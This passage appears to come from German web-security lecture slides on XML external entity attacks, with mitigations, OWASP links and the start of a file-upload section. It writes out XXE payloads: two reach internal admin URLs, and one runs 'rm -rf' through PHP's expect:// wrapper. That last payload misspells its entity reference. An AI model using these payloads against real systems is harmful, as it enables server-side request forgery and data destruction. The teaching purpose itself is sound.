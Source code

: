 ## Beispiel: reading URLs

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://192.168.0.1/admin/do-something" >]>
<foo>&xxe;</foo>
```

## Beispiel: reading URLs

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:8080/admin/do-something" >]>
<foo>&xxe;</foo>
```

## If lucky: PHP Expect Module

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://rm -rf" >]>
<foo>&xee;</foo>
```

## Gegenmaßnahmen

* JSON/CSV sind keine "wirklichen" Alternativen
* Im Parser External Entities [deaktivieren](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#java)
* Wissen, wie der Parser funktioniert..

## Million Laughter Attacks

* DoS-Angriff gegenüber dem Speicher (RAM)
* Meistens über “explodierende” Strukturen
* [XML Security Cheat Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_Security_Cheat_Sheet.md)

# File Uploads

## Umfeld

* Benutzer kann Dateien hochladen
* Benutzer kann Dateien wieder herunterladen bzw. auf Dateien zugreifen
* (Dateien werden server-seitig gelesen)
